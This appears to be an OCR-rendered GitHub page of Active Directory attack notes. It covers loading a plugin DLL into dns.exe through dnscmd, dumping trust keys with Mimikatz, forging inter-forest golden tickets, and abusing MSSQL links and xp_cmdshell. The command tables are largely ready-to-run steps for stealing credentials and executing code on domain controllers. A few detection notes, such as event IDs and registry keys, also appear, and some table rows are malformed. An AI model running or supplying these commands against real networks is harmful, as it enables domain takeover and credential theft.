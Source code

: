 |Command|Description|Needs RSAT DNS|
|---|---|---|
|dnscmd \$DomainController/\$DNSServer /config /serverlevelplugindll \\\\\$Share\\to\\thing.dll|Configure the dll for dns.exe|True|
|\$dnssettings = Get-DnsServerSetting -ComputerName \$DNSServerName -Verbose -All;\$dnssettings.ServerLevelPluginDll="\\\\\$Share\\to\\.dll";Set-DnsServerSetting -InputObject \$dnssettings -ComputerName \$DNSServerName -Verbose|Use DNSServer module to configure .dll for dns.exe|True|
|sc \\\\\$ComputerName stop dns|False|
|sc \\\\\$ComputerName start dns|False|

### Addt'l Notes
- mimilib.dll can be used, logs all DNS queries to C:\\Windows\\System32\\kiwidns.log (You can customize kdns.c and recompile to also make system calls when requests are logged and execute arbitrary code (make payload asynchronous (by default system calls are synchronous which will cause further DNS requests to fail after first log function call))
- Loading of DLLs leaves an Event ID 770 in the logs with full UNC path to the dll that was loaded.
- Technique leaves registry entries under:
  - HKLM\\SYSTEM\\CurrentControlSet\\Services\\DNS\\Parameters\\ServerLevelPluginDll
  - HKLM\\SYSTEM\\CurrentControlSet\\Services\\DNS\\Parameters\\ServerLevelPluginDll
- If you start the service and forget to share the .dll UNC path with everyone or you use your PC DNS name you can cause DNS resolution outages and more logs will be left
  - Event ID 150: DNS server could not load or initializae \$FullUNCPathToDll

# Cross-Forest Trusts

## Bidirectional Trusts
- When you present your TGT to Kerberos for a TGS that's in another forest, an inter-realm TGT is received and transferred over to the DC in the other forest
- Only validation that is performed by the other forest is if it can decrypt the inter-realm TGT with the Trust-Key
- After decryption, the DC in the other forest handles kerberos communication from there

|Tool|Command|Description|
|---|---|---|
|Invoke-Mimikatz|Invoke-Mimikatz -Command '"lsadump::trust /patch"'|Retrieve trust keys for inter-forest trusts|
|Invoke-Mimikatz|Invoke-Mimikatz -Command '"lsadump::lsa /patch"'|Retrieve trust keys for inter-forest trusts|
|Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:\$Domain /sid:\$DomainSID /rc4:\$TrustKeyNTLMHash /service:krbtgt /target:\$TargetDomain /ticket:\$PathToStoreTicket"'| Forge Inter-Forest TGT|
|asktgs|asktgs.exe \\\\\$PathToInterForestTGT \$TargetSPN|Request TGS for SPN|
|kirbikator|kirbikator.exe lsa .\\\$PathToTGS|Inject TGS into memory|

# MSSQL Servers
- Generally deployed in amounts > 1 in a Windows Domain
- Domain users can be mapped to database roles
- Database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources
- In case of database links between SQL servers, it is possible to execute stored procedures
- Database links work across forest trusts
- If rpcout is enabled, xp_cmdshell can be enabled
